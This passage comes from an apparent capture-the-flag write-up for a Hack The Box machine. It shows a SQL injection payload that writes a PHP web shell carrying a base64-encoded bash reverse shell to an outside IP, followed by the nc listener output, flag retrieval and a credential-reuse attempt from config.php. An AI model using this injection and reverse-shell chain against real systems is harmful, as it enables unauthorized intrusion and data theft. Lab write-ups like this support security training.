 Then I sent the request to get it written in a file. 

```bash
username=admin&country=' UNION SELECT '<?php echo `echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTIyLzQ0NDQgMD4mMSAK | base64 -d | bash`;?>' into DUMPFILE '/var/www/html/backdoor2.php' -- -
```

It gave me a reverse shell.

```bash
$ nc -klvnp 4444                                                                      
Listening on 0.0.0.0 4444
Connection received on 10.129.95.235 56866
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@validation:/var/www/html$ whoami
whoami
www-data
```

From there, I was able to get the user flag.

```bash
www-data@validation:/var/www/html$ ls /home     
ls /home
htb

www-data@validation:/var/www/html$ ls /home/htb
ls /home/htb
user.txt

www-data@validation:/var/www/html$ cat /home/htb/user.txt
cat /home/htb/user.txt
REDACTED
```

## Getting root

From there, getting root was very easy. I checked the content of the `config.php` file. 

```php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "REDACTED";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

I tried using this password to su to the `htb` user. 

```bash
www-data@validation:/var/www/html$ su htb
su htb
su: user htb does not exist or the user entry does not contain all the required fields
```
